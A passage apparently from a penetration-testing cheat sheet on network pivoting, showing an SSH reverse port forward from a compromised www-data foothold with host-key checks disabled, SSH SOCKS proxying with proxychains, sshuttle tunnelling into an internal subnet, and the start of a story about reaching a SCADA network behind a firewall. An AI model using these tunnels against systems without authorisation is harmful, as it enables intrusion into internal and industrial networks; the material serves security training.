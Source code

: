 As we would be probably inside the docker and www-data user, we might not have ssh binary and proper environment variable in that case, we can add below options

```none
./ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o GlobalKnownHostsFile=/dev/null -v -i id_rsa -R 3306:172.16.0.4:3306 -fN bitvijays@10.10.15.111
```

#### SSH as SOCKS Proxy

We can use ssh to have a socks proxy to connect to vnc, ssh, rdp if vm is hosting in another vm and then use remmina to access VNC.

```none
ssh -D localhost:9050 user@host

-D [bind_address:]port Specifies a local “dynamic” application-level port forwarding.  This works by allocating a socket to listen to port on the local side, optionally bound to the specified bind_address.  Whenever a connection is made to this port, the connection is forwarded over the secure channel, and the application protocol is then used to determine where to connect to from the remote machine.  Currently the SOCKS4 and SOCKS5 protocols are supported, and ssh will act as a SOCKS server.  Only root can forward privileged ports. Dynamic port forwardings can also be specified in the configuration file.
```

and

```none
proxychains4 remmina/ rdesktop
```

If we have to share a interesting story with you, Recently, We were assigned a engagment to compromise a industrial plant. Let us walkthru what's the scenario.
Scenario:

- Attacker IP Network : 172.40.60.0/22; Attacker Current IP: 172.40.60.55 and Targetted IP: 172.16.96.2 (Possible SCADA Network - Natted IP)
- As it's a industrial plant, there's a firewall between IT Network (172.40.60.0/22) and SCADA Network (Possible IP 172.16.96.2 -- This is NATTed IP)

#### VPN-like tunnelling?

[sshuttle](https://github.com/sshuttle/sshuttle) Transparent proxy server that works as a poor man's VPN. Forwards over ssh. Doesn't require admin. Works with Linux and MacOS. Supports DNS tunneling.

So if we have a access to device at 10.1.1.1, and it also has an interface on 192.168.122.0/24 with other hosts behind it, we can run:

```none
# sshuttle -r root@10.1.1.1 192.168.122.0/24
root@10.1.1.1's password:
client: Connected.
```

This creates a VPN-like connection, allowing me to visit 192.168.122.4 in a browser or with curl, and see the result.

Probably, nmap won't be a good idea to run over sshuttle, however, it is a very nice way to interact with a host over a tunnel.
